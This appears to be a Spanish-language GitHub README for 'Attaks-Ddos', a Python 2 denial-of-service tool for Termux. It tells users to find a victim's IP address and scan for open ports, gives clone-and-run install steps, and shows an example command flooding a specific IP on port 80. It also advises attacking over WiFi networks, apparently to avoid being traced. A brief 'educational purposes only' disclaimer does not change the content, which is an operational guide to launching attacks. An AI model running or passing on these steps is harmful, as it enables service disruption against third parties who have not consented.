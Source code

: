 # Attaks-Ddos

Ataque de negación de servicio. Antes de usar esta herramienta primero debes de encontrar la dirección IP de la víctima y escanear dónde está abierto el puerto

# Nota

Esta herramienta es para sólo aprender los ataques DDOS recuerden que, ddos son sólo una pequeña parte y muy pequeño en el mundo de la piratería, así que no se sientan orgullosos si sólo pueden realizar ddos.

¡¡Recordar!! NO REALICE ATAQUES DOS/DDOS SIN USAR REDES WIFI!!!!

# 🦂 INTALACIÓN 🦂

* pkg update && pkg upgrade -y

* pkg install python2 -y

* pkg install git -y

* git clone https://github.com/Scorpio28-Oficial/Attaks-Ddos

* ls

* cd Attaks-Ddos

* ls

* python2 Attaks-Ddos.py <ip> <port> <packet>

__Ejemplo:__

python2 Attaks-Ddos.py 122.14.229.8 80 500

__Informatic in Termux__

https://t.me/Informatic_in_Termux

Esta herramienta es solo con fines educativos e informativos, el mal uso es responsabilidad de quien la utilize.

# EL CONOCIMIENTO ES LIBRE.

__By: Scorpio28__
